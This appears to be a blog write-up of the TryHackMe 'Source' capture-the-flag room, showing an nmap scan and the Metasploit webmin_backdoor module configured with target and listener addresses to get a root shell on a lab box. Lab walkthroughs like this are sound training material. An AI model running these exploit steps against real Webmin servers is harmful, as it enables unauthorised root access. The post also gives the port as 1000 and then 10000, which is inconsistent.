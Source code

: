 ```yaml
---
title: TryHackMe - Source
layout: post
categories:
- TryHackMe
tag: easy, ctf, cve
image: "/assets/img/source.png"
image_alt: source
---
```


Exploit a recent vulnerability and hack Webmin, a web-based system configuration tool. Let's start.

<br>

## 1. Embark   

Enumerate and root the box attached to this task. Can you discover the source of the disruption and leverage it to take control?

<br>

### 1.1 user.txt

Let's do a nmap scan.

```
$ nmap -sSV 10.10.11.143
```

![nmap](/assets/img/tryhackme/source/nmap.png)

Two ports are open. These are **`22/tcp SSH and 1000/tcp HTTP`**. 

I am visiting the Webmin page running on port 1000. I see a page like this:

![home](/assets/img/tryhackme/source/home.png)

I fix the URL as HTTP like this [https://10.10.11.143:10000/](https://10.10.11.143:10000/)

The Webmin login page appears on the page.

![login](/assets/img/tryhackme/source/login.png)

I tried several login attempts but it didn't work. I'm searching for any security vulnerabilities in the version of Webmin used.

![browse](/assets/img/tryhackme/source/browse.png)

I see that this version of Webmin is vulnerable.

I decide to do a search using Metasploit.

```
$ msfconsole
$ search webmin
```

![search](/assets/img/tryhackme/source/search.png)

I've tried most of the ones here. I can only run **`7 exploit/linux/http/webmin_backdoor`**. 

Let's do the settings first.

```
$ set RHOSTS 10.10.11.143
$ set LHOST 10.8.86.168
$ set SSL true
$ show options
```
![set](/assets/img/tryhackme/source/set.png)

After making the settings, it should look like this.

```
$ show options
```

![options](/assets/img/tryhackme/source/options.png)

Let's run it.

```
$ run
``` 

![run](/assets/img/tryhackme/source/run.png)

Yes, it worked. We are inside with root privilege.

Let's get the user flag.

![user-flag](/assets/img/tryhackme/source/user-flag.png)

<br>

### 1.2 root.txt

Let's get the root flag.

![root-flag](/assets/img/tryhackme/source/root-flag.png)

<br>

---

<br>

It was such a fun CTF. I hope you learned something and had fun too. But that’s it for now till next time take care.

<br>
